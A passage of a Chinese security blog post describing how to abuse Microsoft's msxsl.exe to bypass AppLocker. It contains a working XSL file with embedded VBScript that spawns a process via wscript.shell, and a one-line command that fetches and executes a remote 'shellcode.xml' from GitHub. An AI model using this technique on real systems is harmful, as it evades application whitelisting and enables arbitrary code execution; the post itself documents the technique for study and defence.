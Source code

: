 ### 2、优化script.xsl

执行VBScript代码：

**注：**

经测试，此xml脚本不支持CSharp，同该资料相违背，此问题有待解决

资料地址如下：

https://msdn.microsoft.com/en-us/library/533texsx(VS.71).aspx

对于VBScript语言，不支持return表示函数返回值，通过函数名=需要返回的值来表示函数返回值

完整内容如下：

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:msxsl="urn:schemas-microsoft-com:xslt"
      xmlns:user="urn:my-scripts">

<msxsl:script language="VBScript" implements-prefix="user">
function myFunction()
	set shell=createobject("wscript.shell")
	shell.run "calc.exe",0
	myFunction = 0
end function

</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:myFunction()"/>
</xsl:template>
</xsl:stylesheet>
```

以上文件内容对应github地址：https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker/blob/master/VBScript.xml

**注：**

调用函数名要对应：

`<xsl:value-of select="user:myFunction()"/>`

### 3、远程执行

msxsl.exe也支持远程执行，参数如下：

`msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-11/3-3.png)
